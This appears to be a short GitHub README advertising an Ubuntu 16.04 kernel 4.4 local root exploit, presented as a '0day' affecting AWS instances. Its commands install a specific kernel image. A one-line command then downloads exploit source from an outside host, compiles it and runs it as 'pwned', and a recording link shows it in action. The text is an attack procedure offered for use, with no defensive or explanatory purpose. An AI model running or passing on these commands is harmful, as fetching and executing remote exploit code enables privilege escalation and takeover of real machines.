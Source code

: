 # Ubuntu16.04-0day

all 4.4 ubuntu aws instances are vulnerable

```
echo "deb http://archive.ubuntu.com/ubuntu/  xenial-proposed restricted main multiverse universe" > /etc/apt/sources.list

apt update 

apt install linux-image-4.4.0-117-generic

```

### Use-Aget:
```
wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 

```
![](./0day.jpg)



[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)
